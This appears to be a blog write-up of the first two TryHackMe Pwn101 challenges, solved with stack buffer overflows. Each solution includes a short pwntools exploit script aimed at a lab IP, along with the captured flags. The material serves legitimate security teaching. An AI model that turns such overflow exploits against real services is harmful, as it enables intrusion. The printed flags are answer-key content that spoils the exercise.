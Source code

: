 ```yaml
---
title: "[THM] Pwn101 Writeup"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/Blog_cover%20(3)-min.jpg
categories:
    - [TryHackMe]
    - [CTF]
tags:
    - Pwn
    - Hacking
    - CTF
abbrlink: 83b7f1b
date: 2024-07-20 13:53:43
---
```


# Challenge 1 - pwn101

First, we use IDA to decompile the binary it gave us. We can see that the program declare a 60 bytes array for char v4. And the winnning condition is to use v4 to overflow and cover the value of v5, which is 1337 initially. Since it didn't ask us to make v5 to a specific value, we can just make sure it not equal to 1337.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141210657.png)

To do that, I use a Python script to do it.

```python
from pwn import *

r = remote("10.10.153.228", 9001)

r.recvuntil("Type the required ingredients to make briyani:")
r.sendline("A"*61)
r.interactive()
```

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141712693.png)

```
THM{7h4t's_4n_3zy_oveRflowwwww}
```

# Challenge 2 - pwn102

First step, IDA decompile the binary.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144645154.png)

According to the code, we can know that the char v4 is a 104 bytes array, and the winning condition is to let v5 equals to `0xC0FF330000C0D3`. So we can simply overflow the v4 to cover v5. The exploit is as follow.

```python
from pwn import *

payload = b"A" * 104 + p64(0xC0FF330000C0D3)


r = remote("10.10.153.228", 9002)
r.recvuntil("Am I right?")
r.sendline(payload)
```

By running this script, we can get the shell to cat the flag out.

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144940194.png)

```
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
```


